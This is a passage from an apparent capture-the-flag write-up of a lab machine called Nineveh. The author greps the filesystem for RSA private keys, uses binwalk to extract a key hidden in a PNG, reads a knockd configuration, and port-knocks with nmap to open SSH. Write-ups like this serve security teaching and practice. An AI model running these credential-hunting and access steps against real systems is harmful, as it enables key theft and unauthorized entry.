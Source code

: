 ~~~
www-data@nineveh:/etc/ssh$ find / -xdev -type f -print0 | xargs -0 grep -H "BEGIN RSA PRIVATE KEY"
<find / -xdev -type f -print0 | xargs -0 grep -H "BEGIN RSA PRIVATE KEY"     

Binary file /var/www/ssl/secure_notes/nineveh.png matches
~~~

Mmm was the private key hidden in the png?

~~~
root@kali:~/Desktop# binwalk -e  nineveh.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)


root@kali:~/Desktop# cd _nineveh.png.extracted/
root@kali:~/Desktop/_nineveh.png.extracted# ls
2BF8D0.tar  54  54.zlib  secret
root@kali:~/Desktop/_nineveh.png.extracted# cd secret/
root@kali:~/Desktop/_nineveh.png.extracted/secret# ls
nineveh.priv  nineveh.pub
~~~

Ok I got the private key, but there was no ssh in the nmap scan. After a bit of enumeration I found this configuration file:

~~~
www-data@nineveh:/etc$ cat knockd.conf
cat knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens33

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
~~~

I needed to send the knock sequence to open the ssh port, I did it with nmap:

~~~
for x in 571 290 911 ; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done
~~~
